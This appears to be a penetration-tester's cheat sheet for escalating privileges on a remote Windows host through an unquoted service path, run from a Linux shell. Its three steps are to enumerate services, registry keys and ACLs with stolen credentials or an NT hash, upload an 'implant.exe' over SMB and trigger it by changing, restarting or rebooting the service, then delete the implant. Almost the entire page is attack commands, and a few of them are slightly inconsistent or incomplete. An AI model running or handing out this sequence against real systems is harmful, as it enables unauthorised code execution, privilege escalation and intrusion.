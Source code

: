 # Unix Shell

TODO: Convert the command lines to remote enumeration

## 01 - Detect

```
$ net rpc service list -U "<username>%<password>" -S <IP>

$ net rpc service status <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> list

$ services.py "<username>":"<password>"@<IP> config -name <service>

$ services.py "<username>":"<password>"@<IP> status -name <service>
```

```
$ regshell -U "<domain>/<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>

$ net rpc registry enumerate "HKLM\SYSTEM\CurrentControlSet\Services\RegSvc" -U "<username>%<password>" -S <IP>

$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\RegSvc"

$ reg.py "<username>":"<password>"@<IP> query -keyName
```

```
$ smbcacls -U "<username>%<password>" //<IP>/C$ "/Program Files/Unquoted Path Service"
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls "/Program Files/Unquoted Path Service"
```

## 02 - Exploit

Take note of the timestamps

```
smb: \> allinfo file.txt

smb: \> put implant.exe
```

```
$ services.py "<username>":"<password>"@<IP> change -name <service>
```

### 2.1 - Automatic service

Reboot the system.

```
$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>%<password>" -S <IP>

$ net rpc shutdown -t 0 -r -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 2.2 - Manual service

```
$ net rpc service stop <service> -U "<username>%<password>" -S <IP>

$ net rpc service start <service> -U "<username>%<password>" -S <IP>
```

```
$ services.py "<username>":"<password>"@<IP> stop -name <service>

$ services.py "<username>":"<password>"@<IP> start -name <service>
```

## 03 - Cleanup

Let's remove our implant after we're elevated to continue on during the post exploitation phases.

```
smb: \> rm "/Program Files/Unquoted Path Service/common.exe"
```
